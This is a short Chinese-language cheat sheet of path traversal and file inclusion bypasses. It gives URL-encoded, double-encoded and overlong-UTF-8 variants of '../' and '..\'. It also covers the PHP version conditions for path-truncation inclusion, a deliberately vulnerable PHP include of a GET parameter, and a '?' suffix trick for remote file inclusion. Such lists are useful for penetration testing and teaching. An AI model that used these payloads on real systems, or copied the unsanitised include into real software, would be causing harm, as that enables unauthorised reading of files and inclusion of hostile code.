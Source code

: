 **利用url编码**

```
(1) ../
    %2e%2e%2f
    ..%2f
    %2e%2e/
(2) ..\
    %2e%2e%5c
    ..%5c
    %2e%2e\
```

**二次编码**

```
(1) ../
     %252e%252e%252f
(2) ..\
     %252e%252e%255c
```

**容器/服务器的编码方式**
```
(1)../
     ..%c0%af
     %c0%ae%c0%ae/
        - java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点
(2)..\
     ..%c1%9c
```

### **截断包含**

要求
- php版本小于5.3.4
- magic_quotes_gpc=off

原理
- Windows下目录最大长度为256字节，超出的部分会被丢弃
- Linux下目录最大长度为4096字节，超出的部分会被丢弃。

```php
<?php   
    include(“includes/” . $_GET['file']);   
?>

<?php   
    include(“includes/” . $_GET['file']."htm");   
?>

```

**url绕过**
```
?file=http://localhost:8081/phpinfo.php?  
拼接后：?file=http://localhost:8081/phpinfo.php?.txt
```
